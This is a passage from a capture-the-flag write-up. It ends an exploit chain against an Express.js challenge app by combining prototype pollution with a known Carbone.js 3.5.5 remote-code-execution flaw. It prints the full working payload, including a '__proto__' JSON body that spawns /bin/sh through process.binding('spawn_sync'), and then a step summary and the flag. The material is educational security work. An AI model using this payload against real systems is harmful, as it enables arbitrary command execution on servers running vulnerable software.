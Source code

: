 ### Step 8: Final payload

Now that we finally have RCE and the server provides us with a `getflag` executable, we quickly write a script that does this:

```xml
{d.name:a;x=Object;w=a=x.constructor.call``;w.type='pipe';w.readable=1;w.writable=1;a.file='/bin/sh';a.args=['/bin/sh','-c','/getflag>/app/public/js/flag.txt'];a.stdio=[w,w];ff=Function`process.binding\x28\x22spawn_sync\x22\x29.spawn\x28a\x29.output`;ff.call``//}
```

```json
{
"__proto__":{
  "a;x=Object;w=a=x.constructor.call``;w.type='pipe';w.readable=1;w.writable=1;a.file='/bin/sh';a.args=['/bin/sh','-c','/getflag>/app/public/js/flag.txt'];a.stdio=[w,w];ff=Function`process.binding\\x28\\x22spawn_sync\\x22\\x29.spawn\\x28a\\x29.output`;ff.call``//":1,
  "fields":[],
  "attributes":["id","username","password","firstname","lastname"],
  "xmlParts":[],
},
"firstname":"team > r0/dev/null","lastname":"best team",
"uuid":"07b184d8-93e6-4750-b781-2b76d2777c75",
"id":22
}
```

{: .prompt-info }
The `__proto__` contains `\\` because `\` is an escape character in JSON. We need to escape the escape character.

We submit the request, go to `/js/flag.txt` and get the flag!

## Conclusion

To summarize the steps we took:

1. **Analyzed the Application**: We examined the Express.js application and discovered it uses SQLite with Sequelize ORM for database interactions and Carbone.js for generating document templates.
2. **Identified Vulnerabilities**: We found that the application is using Carbone.js version 3.5.5, which has a known remote code execution (RCE) vulnerability when prototype pollution is possible in the host application.
3. **Exploited Prototype Pollution**: By injecting `__proto__` properties into a POST request, we exploited the `merge` function in `utils/index.js` to pollute the application's prototype, a prerequisite for triggering the Carbone.js vulnerability.
4. **Bypassed Sequelize Errors**: The initial exploitation attempts led to Sequelize errors due to enumerable properties. We mitigated these errors by setting `fields` and `attributes` in the polluted prototype to acceptable values, allowing the ORM to process the request without errors.
5. **Resolved Carbone.js Errors**: We encountered errors from Carbone.js related to undefined properties. By adding an `xmlParts` array to the polluted prototype, we prevented these errors and allowed the rendering process to proceed.
6. **Crafted the Final Payload**: With the prototype pollution in place and errors resolved, we crafted a payload that leveraged the RCE vulnerability in Carbone.js. This allowed us to execute arbitrary commands on the server.
7. **Retrieved the Flag**: By executing commands on the server, we accessed the flag and completed the challenge.

By systematically exploiting the prototype pollution vulnerability and addressing the resulting errors in both Sequelize and Carbone.js, we successfully achieved remote code execution and retrieved the flag.

## Flag

`HERO{m0r3_p0llut10n_pl34s3_456144e3cc5ed95803a2f81baaf3c4bb}`
